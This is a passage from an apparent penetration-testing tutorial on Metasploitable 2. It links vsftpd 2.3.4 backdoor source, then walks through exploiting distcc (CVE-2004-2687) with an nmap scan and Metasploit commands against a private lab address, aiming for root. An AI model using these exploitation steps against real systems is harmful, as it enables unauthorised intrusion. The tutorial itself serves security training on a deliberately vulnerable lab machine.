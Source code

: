 Vulnerable Source code: [http://pastebin.com/AetT9sS5](http://pastebin.com/AetT9sS5)

Detailed Source code review:

[**Exploiting VSFTPD v2.3.4 on Metasploitable 2 - Hacking Tutorials**  
_In the upcoming Metasploitable 2 exploitation tutorials we will be exploiting the vulnerabilities we have found in the…_www.hackingtutorials.org](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/ "https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/")[](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/)

#### 2\. Exploiting Vulnerable DISTCC — [CVE-2004–2687](http://cvedetails.com/cve/cve-2004-2687)

**Aim:** Getting root access on the machine.

DISTCC V1 is known vulnerable application running on Metasploitable-2 but it is interesting because we have to escalate normal user to **root** using “Privilege Escalation”

#### **Searching about distcc on online**

distcc is a tool for speeding up the compilation of source code by using distributed computing over a computer network. With the right configuration, distcc can dramatically reduce a project’s compilation time.

distcc running on port 3632

#### **Running nmap against port — 3632**

**nmap -sV -p 3632 192.168.10.10**

![](https://cdn-images-1.medium.com/max/800/1*JH6v3xVGIPEddndRbu0MTQ.png)

#### Searching for the public exploit for distccd v1

Vulnerable to: [CVE-2004–2687](http://cvedetails.com/cve/cve-2004-2687)

Exploit publicly available. [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc\_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)

#### Exploiting using Metasploit

**msfconsole**

![](https://cdn-images-1.medium.com/max/800/1*7tL7qP4ZT-SYwmXY9BSOZw.png)
![](https://cdn-images-1.medium.com/max/800/1*y7-Q94SF0pbSax2mYU4v0g.png)

metasploit commands.

**search distcc**

**use exploit/unix/distcc\_exec**

**show options**

**set RHOST 192.168.10.10**

**exploit**
